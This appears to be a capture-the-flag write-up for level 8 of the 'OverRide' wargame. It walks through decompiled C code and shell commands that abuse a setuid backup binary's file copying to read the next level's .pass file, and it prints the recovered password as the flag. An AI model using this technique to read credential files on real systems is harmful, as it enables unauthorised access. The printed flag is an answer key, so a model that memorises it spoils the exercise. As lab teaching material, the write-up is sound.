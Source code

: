 # level8 Path Traversal

## Code
```c
  v4 = fopen("./backups/.log", "w");

  stream = fopen(argv[1], "r");

  strcpy(dest, "./backups/");
  strncat(dest, argv[1], 99 - strlen(dest));
  fd = open(dest, O_WRONLY | O_CREAT, 0660);
```
There are 3 files they open in the binary.

1. It opens `./backups/.log` with `write`.
2. It opens `argv[1]` -> `stream` with `read`.
3. It opens a file name, `./backups/<argv[1]>`.

### `./backups`
To make first `open` work, we should create `backups` directory in where we run the command. 
```bash
# bad example
level08@OverRide:/tmp$ ~/level08 hi
ERROR: Failed to open ./backups/.log
# good example
level08@OverRide:/tmp$ mkdir backups
level08@OverRide:/tmp$ ~/level08 hi
ERROR: Failed to open hi # it's another problem. :)
```

### `argv[1]`
To make second `open` work, we should create a file has same name of `argv[1]`.
```bash 
# bad example
level08@OverRide:/tmp$ ~/level08 hi
ERROR: Failed to open hi
# good example
level08@OverRide:/tmp$ echo "hello I'm hi" > hi
level08@OverRide:/tmp$ ~/level08 hi
level08@OverRide:/tmp$ cat backups/hi
hello I'm hi
```

They open the file we specify as `argv[1]`, read its contents, and write them to `./backups/<argv[1]>`. So we will try to read the `.pass` file directly.

## Payload

First, we should create all necessary directories.

```bash
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09
level08@OverRide:/tmp$ ls -Rl
.:
total 0
drwxrwxr-x 3 level08 level08 80 Jul  7 20:47 backups

./backups:
total 0
drwxrwxr-x 3 level08 level08 60 Jul  7 20:47 home

./backups/home:
total 0
drwxrwxr-x 3 level08 level08 60 Jul  7 20:47 users

./backups/home/users:
total 0
drwxrwxr-x 2 level08 level08 40 Jul  7 20:47 level09

./backups/home/users/level09:
total 0
```

Then, just run the command!
```bash
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
```

Now it must be there!
```bash
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## Flag
```
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
